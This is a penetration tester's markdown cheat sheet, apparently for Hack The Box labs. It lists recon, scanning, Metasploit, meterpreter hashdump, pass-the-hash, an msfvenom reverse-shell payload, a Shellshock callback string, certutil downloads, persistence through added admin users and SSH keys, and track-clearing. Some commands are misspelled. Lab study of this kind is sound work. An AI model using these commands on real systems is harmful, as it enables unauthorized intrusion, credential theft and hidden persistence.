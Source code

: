 # Recon
- whois
- geoip-bin
- geoiplookup $ip
- theharvester -d $domain -l 500 -b google
- OSRFramework
  - usufy.py -n $target
  - mailfy.py -n $target # also checks if theyve been leaked
  - searchfy.py -n $target
  - domainfy.py -n $target
- nikto -host $ip
  - nmap -p80,443 $subnet -oG -  | nikto -h-
- openVAS ~nessus,   Greenbone Sec Assistant (gsad) GUI
  - apt install openvas
  - openvas-setup
  - omp -? 

# hack the box
- https://www.hackthebox.eu/home/rules
- https://www.hackthebox.eu/home/htb/access
  - OpenVPN
  - nmap -sC -sV 10.10.10.79
  - nmap --script vuln -oA nmap/vulnscan 10.10.10.79
  - sslyze --heartbleed 10.10.10.79:443
  - gobuster -u http://10.10.10.79 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50
  - burp suite community edition
  - 
## Hack examples
- https://www.youtube.com/watch?v=JZN3JhoAdWo
- https://medium.com/bugbountywriteup/valentine-a-hackthebox-writeup-f5b731e35138
1. `Recon`
   1. get $IP of target from hackthebox.eu
2. `Scanning` 
   1. nmap $ip                    # better to use msfc db_nmap
      1. 8080/tcp                 # browse via web
   2. nmap -A -T4 -p- $ip         # ALL scan, OS/ver/script/traceroute detection.
      1.  5min to an hour
   3. nmap -sU -T4 -p1-1000 $ip   # 1000 UDP ports
   4. Leads
      1. smb                      # 139/tcp ntbios-ssnn
      2. ftp                        
      3. web app
   5. google search $lead exploit 
      1. exploit-db.com
      2. rapid7.com
      3. AutoBlue-MS17010 coded example
3. `Gaining access`
   1. msfconsole                  # Rapid7 Metasploit
      1. search $lead           # $keyword
      2. search $exploit-keyword-or-id
      3. use $exploit/aux
      4. info
      5. options
      6. show
      7. set $var $value
      8. exploit or run
   2. nessus??
4. `Maintaining access`
   1. meterpreter               # reverse shell
      1. getuid #windows command
      2. sysinfo
      3. help
      4. getsystem
      5. hashdump # get the SAM, pass hashes?
         1. crackmapexec $ip -u "$username" -H $Hash --local # pass the hash
         2. psexec.py
      6. find user.txt, or root.txt and submit to hackthebox.eu
      7. background
      8. search suggester
   2. msfvenom -p java/jsp_shell_reverse_tcp LHOST=$myip LPORT=$myport -f war > rat.war
      1. msfconsole
         1. use exploit/multi/handler
         2. set payload windows/x64/???
   3. nc -nvlp 1234 #netcat
      1. no tty # https://netsec.ws/?p=337
      2. escalate privlages
         1. sudo -u $user /bin/bash
         2. http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
   4. `testing callbacks`
      1. shellshock
         1. () { :; }; /bin/bash -c "ping -c 3 $myip; id;"
      2. sudo tcptump -i eth9 -n icmp
   5. `keeping access `
      1. if `root`, create another admin user
      2. use tools on server to setup ssh server
      3. create keys
         1. cd .ssh
         2. echo $id_rsa.pub >> authorized_keys 
         3. known_hosts??
         4. ssh to box
         5. scp user@ip:/path . 
5. `Clearing tracks`
   1. CCleaner
   2. Auditpol
6. Capture the flag (CTF)
   1. tag web with contents of user.txt

# Leads
1. ftp
   1. get/put $file
2. smb                                          # found smb service
   1. smbclient -L \\\\$ip\\      
      1. try to crawl folders
3.  web app
   2. subs
      1. Sublist3r #for recon
         1. apt install sublist3r
      2. http://crt.sh 
   3. default apps
      1. try default credential lists
         1. google app names and default credentials
         2. try in burp suite
   4. dirbuster&  # OWASP DirBuster
      1. /usr/share/wordlists/dirbuster/dir??    #list based
         1. iis7 ext "asm,asmx,asp,aspx"
4. linux
   1. quick http
      1. python -m SimpleHTPServer 80
5. windows privliaged escalation
   1. wget for windws
      1. certutil -urlcache -f $url
   2. windows expliot suggester
   3. https://www.fuzzysecurity.com/tutorials/16.html
      1. rasta-mouse / sherlock or watson

# notes
smtp expn
smtp verify
snmp-check?? tool
